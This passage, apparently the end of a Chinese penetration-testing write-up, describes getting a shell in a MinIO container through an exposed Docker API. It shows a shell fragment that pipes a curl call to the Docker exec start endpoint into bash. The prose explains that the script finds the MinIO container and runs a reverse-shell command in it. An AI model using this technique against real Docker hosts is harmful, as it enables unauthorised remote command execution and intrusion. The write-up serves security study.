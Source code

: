 ```shell
        echo 'curl -s -X POST "${target}/exec/${execid}/start" -H "Content-Type: application/json" --data-binary "{}"'; \
    } | bash
```

这个脚本所干的事情比较简单，一个是遍历了所有容器，如果发现其镜像的名字中包含`minio/minio`，则认为这个容器就是MinIO所在的容器。拿到这个容器的Id，用exec的API，在其中执行反弹shell的命令。

最后成功[拿到MinIO容器的shell](https://youtu.be/WyDEn0wUhPc)

## 参考文章

<a-alert type="success" message="https://www.leavesongs.com/PENETRATION/the-collision-of-containers-and-the-cloud-pentesting-a-MinIO.html" description="" showIcon>
</a-alert>